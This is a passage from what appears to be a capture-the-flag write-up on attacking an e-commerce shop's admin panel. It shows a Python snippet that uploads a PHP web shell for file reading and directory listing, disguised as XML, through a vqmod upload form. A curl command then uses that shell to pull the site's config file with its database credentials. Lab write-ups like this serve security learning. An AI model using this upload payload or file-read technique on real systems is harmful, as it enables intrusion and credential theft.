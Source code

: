 Weird. We can change this to run `phpinfo();` instead in case there are functions being blocked. Sure enough, there are tons of blocked functions:

<figure><img src="../../../.gitbook/assets/image (627).png" alt=""><figcaption></figcaption></figure>

Since we weren't able to run commands on this, what we can do instead is get an LFI script going.

```python
files = {
        'vqmod': (rand + ".php", "<?php if (isset($_REQUEST['file'])) {  echo file_get_contents($_REQUEST['file']);} if (isset($_REQUEST['dir'])) {print_r(scandir($_REQUEST['dir']));} ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
```

<figure><img src="../../../.gitbook/assets/image (628).png" alt=""><figcaption></figcaption></figure>

Interestingly, the `mysql` user had a shell:

```
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
```

Let's try to enumerate the possible `config.php` files.&#x20;

```
$ curl http://10.129.71.208/shop/admin/../vqmod/xml/8IKVU.php?file=/var/www/html/shop/includes/config.inc.php
define('DB_TYPE', 'mysql');
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'changethis');
define('DB_DATABASE', 'ecom');
define('DB_TABLE_PREFIX', 'lc_');
define('DB_CONNECTION_CHARSET', 'utf8');
define('DB_PERSISTENT_CONNECTIONS', 'false');
```
